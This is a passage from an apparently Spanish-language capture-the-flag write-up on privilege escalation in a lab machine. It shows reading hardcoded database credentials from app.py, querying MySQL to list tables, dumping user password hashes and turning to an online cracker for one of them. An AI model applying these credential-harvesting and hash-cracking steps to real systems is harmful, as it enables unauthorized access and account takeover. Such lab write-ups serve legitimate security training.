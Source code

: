 ------------------------------------
# Escalada De Privilegios
Veo 3 archivos interesante procedo a ver el contenido de app.py
```bash
ww-data@iclean:/opt/app$ ls
 app.py
 static
 templates
```
Este contiene las credenciales para la base de datos
```bash
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
```
Lo hice de la siguiente manera porque siempre que intentaba de conectarme me daba error o se quedaba colgado.
Primero veremos las base de datos existentes
```bash
www-data@iclean:/opt/app$ mysql --database capiclean -e 'show databases;' -u iclean -p
mysql --database capiclean -e 'show databases;' -u iclean -p
Enter password: pxCsmnGLckUb
Database
capiclean
information_schema
performance_schema
```
Veremos las tablas disponibles en la base de datos capiclean
```bash
www-data@iclean:/opt/app$ mysql --database capiclean -e 'use capiclean; show tables;' -u iclean -p
mysql --database capiclean -e 'use capiclean; show tables;' -u iclean -p
Enter password: pxCsmnGLckUb
Tables_in_capiclean
quote_requests
services
users
```
Ahora iremos por la tabla users
```bash
www-data@iclean:/opt/app$ mysql --database capiclean -e 'use capiclean; show tables; select * from users' -u iclean -p
mysql --database capiclean -e 'use capiclean; show tables; select * from users' -u iclean -p
Enter password: pxCsmnGLckUb
Tables_in_capiclean
quote_requests
services
users
id	username	password	role_id
1	admin	2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51	21232f297a57a5a743894a0e4a801fc3
2	consuela	0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa	ee11cbb19052e40b07aac0ca060c23ee
```
Voy a crackear la contraseña de consuela, para eso voy a [crackstation](https://crackstation.net/) 
